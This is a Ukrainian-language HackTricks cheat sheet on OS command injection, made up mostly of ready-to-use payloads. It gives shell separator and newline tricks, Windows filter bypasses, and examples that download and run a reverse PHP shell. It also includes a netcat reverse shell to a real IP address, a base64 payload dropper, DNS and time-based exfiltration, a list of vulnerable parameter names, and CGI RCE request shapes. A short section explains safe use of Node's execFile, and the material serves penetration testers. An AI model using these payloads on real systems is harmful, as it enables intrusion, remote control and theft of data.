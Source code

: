 # Command Injection

{{#include ../banners/hacktricks-training.md}}

## Що таке command Injection?

A **command injection** дозволяє атакуючому виконувати довільні команди операційної системи на сервері, що розміщує застосунок. Внаслідок цього застосунок і всі його дані можуть бути повністю скомпрометовані. Виконання таких команд зазвичай дозволяє атакуючому отримати несанкціонований доступ або контроль над середовищем застосунку та базовою операційною системою.

### Контекст

Залежно від **де вставляється ваше введення** вам може знадобитися **завершити контекст у лапках** (використовуючи `"` або `'`) перед командами.

## Command Injection/Execution
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)
ls%0abash%09-c%09"id"%0a   # (Combining new lines and tabs)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
### **Обмеження** Bypasses

Якщо ви намагаєтесь виконати **довільні команди всередині linux-машини**, вам буде цікаво прочитати про ці **Bypasses:**


{{#ref}}
../linux-hardening/bypass-bash-restrictions/
{{#endref}}

### **Приклади**
```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
### Параметри

Нижче наведено топ-25 параметрів, які можуть бути вразливими до code injection та подібних RCE vulnerabilities (з [link](https://twitter.com/trbughunters/status/1283133356922884096)):
```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
### Time based data exfiltration

Витяг даних: символ за символом
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
### DNS based data exfiltration

На основі інструмента з `https://github.com/HoLyVieR/dnsbin`, також розміщено на dnsbin.zhack.ca
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```
Онлайн-інструменти для перевірки DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in

### Обхід фільтрації

#### Windows
```
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```
#### Linux


{{#ref}}
../linux-hardening/bypass-bash-restrictions/
{{#endref}}

### Node.js `child_process.exec` проти `execFile`

Під час аудиту бекендів на JavaScript/TypeScript ви часто натрапите на API Node.js `child_process`.
```javascript
// Vulnerable: user-controlled variables interpolated inside a template string
const { exec } = require('child_process');
exec(`/usr/bin/do-something --id_user ${id_user} --payload '${JSON.stringify(payload)}'`, (err, stdout) => {
/* … */
});
```
`exec()` запускає **shell** (`/bin/sh -c`), тому будь-який символ, що має спеціальне значення для shell (back-ticks, `;`, `&&`, `|`, `$()`, …), призведе до **command injection**, якщо введення користувача конкатенується в рядок.

**Запобігання:** використовуйте `execFile()` (або `spawn()` без опції `shell`) і передавайте **кожен аргумент як окремий елемент масиву**, щоб `shell` не брав участі:
```javascript
const { execFile } = require('child_process');
execFile('/usr/bin/do-something', [
'--id_user', id_user,
'--payload', JSON.stringify(payload)
]);
```
Real-world case: *Synology Photos* ≤ 1.7.0-0794 був вразливий через неавторизований WebSocket-подію, яка поміщала керовані атакуючим дані в `id_user`, що пізніше вставлялись у виклик `exec()`, досягаючи RCE (Pwn2Own Ireland 2024).

### Ін'єкція аргументів/опцій через провідний дефіс (argv, без shell-метасимволів)

Не всі ін'єкції вимагають shell-метасимволів. Якщо додаток передає неперевірені рядки як аргументи системній утиліті (навіть з `execve`/`execFile` і без shell), багато програм все одно розбиратимуть будь-який аргумент, що починається з `-` або `--`, як опцію. Це дозволяє атакуючому змінювати режим роботи, шляхи виводу або викликати небезпечну поведінку, не потрапляючи в shell.

Типові місця, де це зустрічається:

- Вбудовані веб-UI/CGI-обробники, які формують команди типу `ping <user>`, `tcpdump -i <iface> -w <file>`, `curl <url>`, тощо.
- Централізовані CGI-маршрутизатори (наприклад, `/cgi-bin/<something>.cgi` з параметром селектора типу `topicurl=<handler>`), де кілька обробників повторно використовують один і той же слабкий валідатор.

Що спробувати:

- Передавати значення, що починаються з `-`/`--`, щоб вони були спожиті як прапорці downstream-утилітою.
- Зловживати прапорцями, які змінюють поведінку або записують файли, наприклад:
- `ping`: `-f`/`-c 100000` щоб навантажити пристрій (DoS)
- `curl`: `-o /tmp/x` щоб записати довільні шляхи, `-K <url>` щоб завантажити контрольований атакуючим конфіг
- `tcpdump`: `-G 1 -W 1 -z /path/script.sh` щоб досягти виконання після ротації в небезпечних обгортках
- Якщо програма підтримує `--` end-of-options, спробуйте обійти наївні пом'якшення, які додають `--` в неправильне місце.

Generic PoC shapes against centralized CGI dispatchers:
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Content-Type: application/x-www-form-urlencoded

# Flip options in a downstream tool via argv injection
topicurl=<handler>&param=-n

# Unauthenticated RCE when a handler concatenates into a shell
topicurl=setEasyMeshAgentCfg&agentName=;id;
```
## Список виявлення Brute-Force


{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt
{{#endref}}

## Посилання

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [Extraction of Synology encrypted archives – Synacktiv 2025](https://www.synacktiv.com/publications/extraction-des-archives-chiffrees-synology-pwn2own-irlande-2024.html)
- [PHP proc_open manual](https://www.php.net/manual/en/function/proc-open.php)
- [HTB Nocturnal: IDOR → Command Injection → Root via ISPConfig (CVE‑2023‑46818)](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)
- [Unit 42 – TOTOLINK X6000R: Three New Vulnerabilities Uncovered](https://unit42.paloaltonetworks.com/totolink-x6000r-vulnerabilities/)

{{#include ../banners/hacktricks-training.md}}

